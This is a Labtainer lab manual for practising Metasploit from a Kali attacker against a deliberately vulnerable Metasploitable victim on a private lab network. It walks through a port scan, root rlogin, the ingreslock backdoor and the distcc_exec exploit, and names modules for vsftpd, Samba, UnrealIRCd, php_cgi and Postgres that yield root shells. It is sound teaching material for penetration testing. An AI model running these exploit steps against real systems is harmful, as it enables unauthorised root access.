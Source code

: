 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Using Metasploit
=================================

Overview
========

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM,
open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the
command:

```
$  labtainer metasploit
```

- You will be advised that this lab will require downloading.  Accept this (answer Y) and allow the download to proceed.

-   The resulting virtual terminal is connected to the attacker computer.
-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM


Lab Tasks
=====

Verify connectivity between attacker and victim
=====

- A simple ping from the attacker system will be sufficient.

```
ping 192.168.1.2
```

Get a list of vulnerable services on the victim
=====

- An 'nmap' scan of the victim will be sufficient.

```
nmap -p0-65535 192.168.1.2
```

Walk-Thru for Vulnerably configured rlogin service (port 513)
=====

- Remote login to the victim (with root privilege)
```
rlogin -l root 192.168.1.2
```

- Display a 'root' file
```
cat /root/filetoview.txt
```

Walk-Thru for Vulnerable ingreslock service (port 1524)
=====

- Use telnet to access ingreslock service and obtain root privilege
```
telnet 192.168.1.2 1524
```

- Display root file as above

Walk-Thru for Vulnerable distccd service (port 3632)
=====

- Start Metasploit console
```
sudo msfconsole
```

Note you will see a warning about a missing database, you can ignore that.

- Search for distccd exploit:
```
search distccd
```

- Use the exploit:
```
use exploit/unix/misc/distcc_exec
```

- View options related to exploit:
```
options
```

- Set the 'RHOST' option:
```
set RHOST 192.168.1.2
```

- Run the exploit:
```
exploit
```

Note: when the exploit has succeeded, no prompt is shown but a shell is created.

- Display the root file as above.

Your Turn! Exploit the Vulnerable IRC daemon (port 6667)
=====

- Search for unreal_ircd exploit.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit and display
root file.

Exploit the Vulnerable VSFtpd service (port 21)
=====

- Search for vsftpd_234.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable Samba service (port 139)
=====

- Search for samba usermap_script.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable HTTP (php) service (port 80)
=====

- Search for php_cgi.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

- From meterpreter prompt, drop to a shell:

```
shell
```

- Display the root file.


Expolit the Vulnerable Postgres service (port 5432)
=====

- Search for postgres_payload.

- Use the exploit.

- View and set options as necessary (RHOST option).

- run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.


- From meterpreter prompt, drop to a shell.

- Display root file.

Stop the Labtainer (Bonus lab)
=====

When the lab is completed, or you'd like to stop working for a while, run

```
$ stoplab
```

You can always restart the Labtainer to continue your work. 

